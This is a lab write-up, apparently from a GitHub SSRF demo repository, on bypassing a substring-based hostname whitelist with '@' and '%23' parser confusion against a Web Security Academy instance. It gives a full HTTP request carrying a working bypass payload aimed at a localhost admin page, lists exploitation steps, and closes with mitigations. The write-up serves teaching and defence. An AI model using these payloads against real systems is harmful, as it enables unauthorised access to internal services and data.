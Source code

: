 # 📘 Scenario 6: SSRF Whitelist Bypass using Special Characters (`@`, `%23`, etc.)

## 🔎 Vulnerability Description

In this scenario, the application has a whitelist mechanism that allows SSRF requests **only if the `stockApi` parameter contains a trusted hostname** such as:

```
 stock.weliketoshop.net 
```

However, the validation is performed **naively by checking if the string appears anywhere in the URL**, and **before URL parsing**. This opens the door for SSRF via **parser confusion**, using characters like `@` and `#` to trick the backend into sending requests to untrusted internal resources.

> **Vulnerability Type:** Insecure Input Validation (Whitelist Bypass)  
> **OWASP Top 10 ID:** A10:2021 – Server-Side Request Forgery  
> **Risk Level:** High  

---

## 🧠 How This Works

Web developers often validate URLs using:

```python
if "stock.weliketoshop.net" in user_input:
    allow_request()
```
In `http://stock.weliketoshop.net@127.0.0.1/admin`, the real request target is `127.0.0.1`

The part before `@` is treated as credentials, not the destination

Similarly, `#` and `%23` can be used to truncate URLs or shift parsing
## 🔧 Target

**SSRF Endpoint:**
🔗 https://0a8b0050041680da800149e900a40036.web-security-academy.net/product/stock

## 📥 HTTP Request

```http
POST /product/stock HTTP/2
Host: 0a8b0050041680da800149e900a40036.web-security-academy.net
Cookie: session=4fRO6noOd3S3f6XW8n7HAxbBYcJ6wa3J
Content-Length: 107
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a8b0050041680da800149e900a40036.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a8b0050041680da800149e900a40036.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
 
stockApi=http://localhost%2523@stock.weliketoshop.net/admin

```
---
## 📥 Server Response
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=3X7ki1Ye5xIUcDzoet2RF7OKactNGrQV; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3074

```
---

## 🧪 Exploitation Steps

Try `stockApi=http://127.0.0.1/admin` → should be blocked by whitelist.

Use one of the bypass payloads above.

Monitor the response:

If internal data is returned, the bypass was successful.

Confirm that the backend followed the spoofed redirect due to parser confusion.

## 💥 Potential Impact

**Full whitelist bypass**: attacker can send SSRF requests anywhere.

Enables access to:

- Internal admin pages

- Cloud metadata APIs

- Redis, Memcached, or other exposed services

Can be combined with file inclusion or RCE vectors.

## ✅ Mitigation Suggestions
- Do **not** validate URLs using simple substring checks.

- Use secure URL parsing libraries and extract the final destination hostname.

- Normalize, decode, and canonicalize URLs before applying any allowlist logic.

- Block credentials in URLs (`user:pass@host`) unless explicitly allowed.

## 📸 Screenshot

![Exploitation Image Of Scenario 6](https://github.com/hovikhanh/ssrf-demo/blob/main/images/Picture6.png "Exploitation Image Of Scenario 6")

## 🔗 References

[OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

[PayloadsAllTheThings – SSRF Bypass Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#bypass-techniques)

> 💡 Note: Whitelist-based protections are often vulnerable to evasion. Always resolve and compare the final destination IP after parsing.